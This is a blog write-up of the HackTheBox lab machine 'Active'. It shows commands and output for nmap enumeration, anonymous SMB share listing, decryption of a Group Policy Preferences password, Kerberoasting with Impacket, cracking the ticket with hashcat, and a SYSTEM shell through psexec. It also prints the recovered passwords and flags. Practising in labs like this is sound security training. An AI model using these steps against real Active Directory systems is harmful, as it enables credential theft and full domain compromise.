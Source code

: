 
---
title: "Active"
summary: "Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment. This machine teaches us about Group Policy Preferences Passwords from Windows and how to abuse them."
categories: ["Post","Blog",]
tags: ["hackthebox machine"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-06

---

| Machine Info         |              |
| -------------------- | ------------ |
| **Platform**         | HackTheBox   |
| **Operative System** | Windows      |
| **Difficulty**       | Easy         |
| **IP**               | 10.10.10.100 |
- - -
## Enumeration

Let's begin the enumeration with `Nmap`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001 -sCV --min-rate 2000 -T5 -n -Pn 10.10.10.100 -oN ports

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-04 18:47:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-04T18:48:37
|_  start_date: 2025-01-04T18:21:40
|_clock-skew: -1s
```

There are quite a few ports open. We can begin the enumeration by checking if there is any information on **SMB** shares:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ smbclient -N -L \\10.10.10.100 

Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      

```

The _Replication_ share has some info that we can access:

```bash
smb: \> ls

  active.htb                          D        0  Sat Jul 21 00:37:44 2018
```

- - -
## Credential Gathering
We discover a password on `Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml`.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ cat Groups.xml 

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

The file **Groups.xml** is automatically created on the `SYSVOL` share when a _Group Policy Preference_ is created. The file contains Groups related information, even passwords. These are encrypted with a private key from Microsoft, but it was published by accident.

This is quite old (from around 2014) but is great knoledge to have, as if a system contains old files wich contain a password encrypted from a _Group Policy Preference_, it can be decripted with the tool `gpp-decrypt`.

```bash
┌──(s3n㉿kali)-[~]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

After finding the password for the _SVC_TGS_ user, we should take a look of the shares that we couldn't access, such as **Users**, to check if we obtained any privilege on it.

```bash
┌──(s3n㉿kali)-[~]
└─$ smbclient \\\\10.10.10.100\\Users -W active.htb -U SVC_TGS 
Password for [ACTIVE.HTB\SVC_TGS]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 04:39:20 2018
  ..                                 DR        0  Sat Jul 21 04:39:20 2018
  Administrator                       D        0  Mon Jul 16 00:14:21 2018
  All Users                       DHSrn        0  Mon Jul 13 19:06:44 2009
  Default                           DHR        0  Mon Jul 13 20:38:21 2009
  Default User                    DHSrn        0  Mon Jul 13 19:06:44 2009
  desktop.ini                       AHS      174  Mon Jul 13 18:57:55 2009
  Public                             DR        0  Mon Jul 13 18:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 05:16:32 2018
```

It looks like it worked! We enumerate again but we don't find anything relevant.

>We could claim the user flag in the SVC_TGS/Desktop directory but I won't do it, as it wouldn't count in exams like OSCP, as you need an interactive shell.

With user _SVC_TGS_ it seems that we don't have a way of getting a foothold on the machine as I tried to RDP. However, we can continue enumerating the internal network as we have valid credentials with this user.

- - -
## Kerberoasting
**Kerberoasting** is a post-exploitation technique we can use when assessing Active Directory (AD) environments. The objective is to obtain the password hash of a service account associated with a _Service Principal Name_ (SPN). SPNs are attributes in AD that uniquely tie a service to a user account, enabling Kerberos authentication.

In this scenario, as authenticated domain users, we request a Kerberos service ticket for an SPN. The domain controller generates the ticket and encrypts it using the NTLM hash of the service account password linked to the SPN. This ticket is then provided to us. At this stage, we don’t require elevated privileges—just a valid domain user account to request the ticket.

Once we retrieve the encrypted ticket, we can crack it offline using tools like `Hashcat`. If successful, we recover the plaintext password of the service account.

We can try to check for users SPNs with Impacket's `GetUserSPN` tool:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon/Users_Share]
└─$ sudo impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 09:06:40.351723  2025-01-04 08:22:56.876969             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8
```

Nice! We got the Now, we can try to crack this hash with `hashcat`:

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$00000811e6a2b622980085c3ea266f01$c9cab36b5168bd9a37c25b64bc43aebb6540b44867f3599f0a407d18ad616cf7af9674a71536b36dd1a5010bd6f9bde15ce5e2840134ca36c87da075...8ca32608b5c667b3abeabe5e73fb859a5d002f4ba2472875cf6e40a592e178ad267ae199713a5a84b51b7b52665667ac3e62bb2ab566d2076c7ce31b7f7e25605dc1f4d7854ac3faf219b78b8:Ticketmaster1968
```

We found Administrator's password with value **Ticketmaster1968**. We can try to abuse SMB to stablish a shell with `psexec`:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ impacket-psexec Administrator@10.10.10.100        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file zOdNJqkf.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service ROhE on 10.10.10.100.....
[*] Starting service ROhE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Now we can read both flags:

```powershell
C:\> type C:\Users\SVC_TGS\Desktop\user.txt  
40538eb1a29a0cef0b8d9a4d7a3a387f
```

```powershell
C:\> type C:\Users\Administrator\Desktop\root.txt
b8737ca7bc28f8b9dcce856e5226956d
```


